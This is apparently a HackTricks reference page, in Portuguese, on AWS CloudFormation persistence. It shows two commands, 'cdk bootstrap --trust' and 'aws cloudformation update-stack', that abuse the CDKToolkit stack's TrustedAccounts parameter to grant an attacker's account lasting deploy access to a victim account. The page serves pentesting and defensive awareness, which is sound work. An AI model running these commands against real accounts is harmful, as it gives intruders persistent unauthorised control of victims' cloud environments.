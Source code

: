 # AWS - Cloudformation Persistência

{{#include ../../../../banners/hacktricks-training.md}}

## CloudFormation

Para mais informações, acesse:

{{#ref}}
../../aws-services/aws-cloudformation-and-codestar-enum.md
{{#endref}}

### CDK Bootstrap Stack

O AWS CDK implanta uma CFN stack chamada `CDKToolkit`. Essa stack suporta um parâmetro `TrustedAccounts` que permite que contas externas implantem projetos CDK na conta da vítima. Um atacante pode abusar disso para conceder a si mesmo acesso indefinido à conta da vítima, seja usando o AWS cli para reimplantar a stack com parâmetros, ou o AWS CDK cli.
```bash
# CDK
cdk bootstrap --trust 1234567890

# AWS CLI
aws cloudformation update-stack --use-previous-template --parameters ParameterKey=TrustedAccounts,ParameterValue=1234567890
```
{{#include ../../../../banners/hacktricks-training.md}}
